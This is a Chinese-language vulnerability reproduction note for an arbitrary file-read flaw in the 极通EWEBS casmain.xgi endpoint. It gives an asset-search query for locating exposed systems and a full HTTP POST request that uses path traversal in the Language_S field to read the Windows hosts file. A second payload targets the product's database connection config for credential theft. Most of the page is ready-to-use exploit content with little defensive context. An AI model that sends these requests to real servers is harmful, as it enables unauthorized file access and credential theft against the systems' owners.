# 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
极通EWEBS
```

## 网络测绘

```
app="新软科技-极通EWEBS"
```

## 漏洞复现

登录页面如下



![](images/202202101939828.png)



漏洞请求包为



```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![](images/202202101939430.png)



可以配合 testweb.php 信息泄露读取敏感信息



```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```